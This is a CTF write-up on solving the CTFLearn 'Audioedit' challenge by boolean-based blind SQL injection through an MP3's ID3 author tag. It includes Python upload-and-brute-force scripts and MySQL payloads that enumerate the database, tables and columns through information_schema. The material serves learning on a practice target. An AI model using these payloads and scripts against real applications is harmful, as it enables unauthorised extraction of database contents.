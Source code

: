 ```yaml
---
layout: post
title:  "Audioedit CTFLearn Writeup"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```


The CTF was terribly insane blind SQLi. I started in morning,  lost my entire day on simple mistakes and got real frustated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge in night from my friend **Jokr**.So, lets get started.

# Finding the Injection
As its name suggest, it takes `.mp3` file and edits it. So, we have a file upload which leads to edit page with unique generated filename. I tried playing with file upload. Eventually, it lead me to nowhere and i assumed file upload was secure. So, what to do then. Well, it took me sometime to realize the file was being fetched from database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though he said SQLi isnt here still I tried SQL injection and injecting a quote, i  got error **"Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for sometime again failed me. It wasnt working for some reasons (not because of rabbit). Later, injecting `"` gave me same error as `'`  which means its not vulnerable. I took some caffeine and started thinking where could i find possible attack vector as i could only upload `.mp3`. 

Later he gave a hint that SQLi is in exif metadata. Also, `exiftool` didnt work for mp3 file, so i had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmdline script for the situation.

# Knowing the Injection
First, i confirmed the vulnerability by adding a single quote (and by testing double quote). This command injects author tag in mp3: `mid3v2 -a "' or '" testing.mp3`. I got 0 in author response which indicates condition evaluated to False. Since, running program, uploading it and checking condition is lengthy, i used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time i tried something new, it gave a error. One more thing to notice is that sending file content with different text caused **File Exist** error to be thrown. Mine frustation slowly increased with time, later i found out it was because i directly edited the response *(which i should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally i found out what i was exploiting was **Boolean based Blind SQLi**. The injection point was `' or SQLCOMMAND or '`. For futher confirmation, i did this which i thought and did evaluate to true `' and 2=2 or 99=99 or '`.
# Exploing SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to used `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database and so on. Now, i started by very basic information gathering: `' and 2=2 or (SELECT substring(version(),1,1)=5) or '` which gave 1 which is true. 

Then, moving forward to finding current database which was not easy but ok. Since, it was boolean based blind doing it by hand would take ages. So, i coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with explanation *(shitty code)*.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
A **SQLExploit** object which i will talk later, and tries all the character while reset() functions opens the mp3 file again. I ran into problem where first query ran successfully while second errored out. This again wasted my 10m along with giving me some irritation. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substring(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need lets start the exploit. Also, some part was slightly modified in this code which i wont show as its not necessary.
Now, lets run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Lets go for table. I asked him about how to find tables and hinted about information_schema. I created similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, its hard to include in payload thats why i did `substr()` method. Also, debugging my payload and improving it i get:     
`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`    
`setcmd()` functions is sligtly modifed and exploiting gives me `audioedit` which is same as database name.

Ah, i was tired and irritated. Took some **caffeine** again and got started. For numbers of columns in that table, querying information schema i used this:   
`' and 2=2 or (SELECT substring(count(\*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, columns number are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(\*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First i thought `limit` was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when payload was large, then i added `()`  which caused error. Ah, the spaces are problem. Why the hell did i used `2=2`. Shit. Also, i reduced `get_random_string()` to length of 2. Finally it worked like a charm and got the first column name, then second, then third. 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column **File** and found out the flag was in file `supersecretflagf1le.mp3`. So, i used the file parameter to reference that file and unfortunately i didnt get flag. 

# Audio Editing
Its the final step, setting visualization to sonogram and editing some other stuffs, i get the flag embedded in image.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)


# Takeaway 

* Always check for lenth of SQL query you can inject
* Pay attention to smaller details to prevent error
* Never edit a file by hand in `Burpsuite`

